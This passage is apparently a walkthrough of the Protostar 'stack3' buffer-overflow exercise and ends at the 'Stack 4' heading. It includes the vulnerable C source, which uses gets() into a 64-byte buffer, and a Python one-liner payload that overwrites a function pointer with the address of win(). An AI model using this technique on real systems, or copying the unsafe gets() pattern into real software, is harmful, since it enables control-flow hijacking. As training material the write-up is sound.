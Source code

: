 I can guess that the stack overflow should have the address location of `win`. We try to combine our stack1 and stack0 knowledge for this.

## Idea and Attack process

We first overflow the buffer first through the gets command. Note that the stack starts at `esp+0x1c`, and the target variable that we want to modify is at `esp+0x5c` which is after the stack. We try to overflow with the address location of `win` to find out what will happen.
We use python to pipe the input into the `gets` call and see the results.

```shell
python -c 'print "1234567890123456789012345678901234567890123456789012345678901234\x24\x84\x04\x08"' | ./stack3
>>>calling function pointer, jumping to 0x08048424
>>>code flow successfully changed
```

## Source code

```c
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>

void win()
{
  printf("code flow successfully changed\n");
}

int main(int argc, char **argv)
{
  volatile int (*fp)();
  char buffer[64];

  fp = 0;

  gets(buffer);

  if(fp) {
      printf("calling function pointer, jumping to 0x%08x\n", fp);
      fp();
  }
}
```

# Stack 4

## Problem

Again we check for other possible function calls that might be used in this problem.
